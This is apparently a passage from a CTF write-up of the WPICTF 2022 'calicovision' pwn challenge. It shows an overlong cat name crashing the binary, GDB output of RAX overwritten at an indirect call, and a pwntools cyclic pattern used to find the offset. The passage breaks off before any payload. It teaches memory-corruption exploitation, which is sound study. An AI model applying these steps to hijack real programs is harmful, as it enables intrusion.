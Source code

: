 It looks like moob isn't so happy to see us :(

Since a cat's name is the only input we seem to have any meaningful control over, how about we try some extreme inputs such as a very long name:
```
>>> B
Naming cat #4
Enter a name: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD
Cat named!
...
>>> A
There are 64 cats.
Cat #1: Unnamed :( (Persian cat)
Cat #2: Unnamed :( (American Shorthair)
Cat #3: Unnamed :( (Manx cat)
Cat #4: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD (Persian cat)
[1]    13427 segmentation fault (core dumped)  ./calicovision
```

Bingo! Our cat ends up with the name `"D"*127` (shorter than our input name of `"D"*200`) and somehow seems to screw up the next cat such that the program crashes when we try to print it.

We can try this in GDB to see how the crash occurrs, and it seems at some point the program tries to call a function at the address pointed to by the RAX register:
```
0x4052fd <list_cats()+317>    call   qword ptr [rax]
```

Additionally, it looks like we've overwritten it:
```
RAX  0x4444444444444444 ('DDDDDDDD')
```

We can find the offset in our input that this value is coming from by using a pattern as input using `pwntools`:
```
$ pwn cyclic -n 8 200       
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
...
pwndbg> r
Starting program: /home/sox/ctf/wpictf-2022/pwn/calicovision_COMPLETE/calicovision 
 _._     _,-'""`-._
(,-.`._,'(       |\`-/|
    `-.-' \ )-`( , o o)
          `-    \`_`"'-
Searching for cats...
Found cats!
-----------------------
What would you like to do?
[A] List all cats
[B] Name a cat
[C] Pet a cat
[Q] Quit
>>> B
Naming cat #62
Enter a name: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
Cat named!
...
What would you like to do?
[A] List all cats
```